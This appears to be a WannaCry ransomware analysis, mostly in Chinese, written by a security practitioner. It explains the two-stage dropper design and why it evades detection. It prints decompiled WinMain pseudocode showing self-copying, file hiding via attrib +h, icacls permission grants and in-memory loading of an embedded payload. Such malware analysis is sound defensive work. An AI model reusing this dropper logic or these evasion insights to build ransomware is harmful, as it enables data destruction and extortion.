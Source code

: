 # Wannacry in-depth analysis #

The WannaCry ransomware attack is an ongoing worldwide cyberattack by the WannaCry ransomware cryptoworm, which targets computers running the Microsoft Windows operating system by encrypting data and demanding ransom payments in the Bitcoin cryptocurrency.

The attack started on Friday, 12 May 2017, and within a day was reported to have infected more than 230,000 computers in over 150 countries. Parts of Britain's National Health Service (NHS), Spain's Telefónica, FedEx and Deutsche Bahn were hit, along with many other countries and companies worldwide.

作为一名安全行业工作者，我对WannaCry进行了深度的分析。 完整的分析可以帮助安全行业工作者了解黑客的的最新攻击手段，为防护领域的解决方案提供有价值的信息，更进一步尝试发现软件弱点，为客户提供有价值的数据恢复服务。

下面我将开始对我这2天分析的结果做一个全面的回顾。

我之前对CryptXXX，Cerber以及Locky这几种高热点勒索软件进行过深入分析，Wannacry这款勒索软件显然吸取了之前勒索软件的设计经验，并进化升级出了一个二阶段攻击方法。 什么是二阶段攻击呢？简单来讲，就是恶意程序本身并没有攻击行为，比如Wannacry程序自身并不做数据加密的工作，它会将真正具有攻击行为的代码动态释放出来，将数据加密的行为隐藏到释放出来的代码中。 这听起来很想壳的行为，比如Locky就是一款带壳的勒索软件，它运行起来后会通过壳代码释放恶意代码。 但壳代码本身也是一个很明显的特征，比如加过壳的代码无法进行反汇编，并且一般情况下信息熵很高，很多防护软件会对这种程序提高危险等级，用户一旦碰到，或者这种程序一旦Drop到用户的机器上就会被Detect到。 但是Wannacry不同，它的第一阶段程序完全没有任何壳代码，EntryPoint也没有做任何的定制，没有任何认为修改的痕迹，也许这也是Wannacry会在利用微软漏洞大规模被传播到Endpoint上没有被发现的原因吧。


**tasksche** 

Wannacry的主程序会被修改会**tasksche.exe**，起这个名字的目的是为了迷惑用户。

```c_cpp
int __stdcall WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
  char **argv; // eax@2
  void *lpPEFile; // eax@10
  CPeBuilder *pPeBuilder; // eax@11
  void (__stdcall *fpTaskStart)(_DWORD, _DWORD); // eax@12
  CProgram Program; // [sp+10h] [bp-6E4h]@9
  char szModuleFileName[520]; // [sp+4E8h] [bp-20Ch]@1
  int nFileSize; // [sp+6F0h] [bp-4h]@10

  szModuleFileName[0] = szSelfName;
  memset(&szModuleFileName[1], 0, 516u);
  *&szModuleFileName[517] = 0;
  szModuleFileName[519] = 0;
  GetModuleFileNameA(0, szModuleFileName, 520u);
  CreateRandomSequence(szServiceName);
  if ( *_p___argc() != 2
    || (argv = _p___argv(), strcmp(*(*argv + 1), aI))
    || !CreateHiddenData(0)
    || (CopyFileA(szModuleFileName, FileName, 0), GetFileAttributesA(FileName) == INVALID_FILE_ATTRIBUTES)
    || !StartMalware() )
  {
    if ( strrchr(szModuleFileName, '\\') )
      *strrchr(szModuleFileName, '\\') = 0;
    SetCurrentDirectoryA(szModuleFileName);
    WriteRegistery(1);
    ExtractFromResource(0, WNcry);
    ModifyOneByte();
    StartProcess(CommandLine, 0, 0);            // attrib +h : Sets the hidden file attribute.
    StartProcess(aIcacls_GrantEv, 0, 0);
    if ( InitKernel32Funcs() )
    {
      CProgram::ctor(&Program);
      if ( CProgram::Initialize(&Program, 0, 0, 0) )
      {
        nFileSize = 0;
        lpPEFile = CProgram::GetPeFile(&Program, aT_wnry, &nFileSize);
        if ( lpPEFile )
        {
          pPeBuilder = WncryLoadPE(lpPEFile, nFileSize);
          if ( pPeBuilder )
          {
            fpTaskStart = WncrySeek2TaskStart(pPeBuilder, szTaskStart);
            if ( fpTaskStart )
              fpTaskStart(0, 0);
          }
        }
      }
      CProgram::dtor_0(&Program);
    }
  }
  return 0;
}
```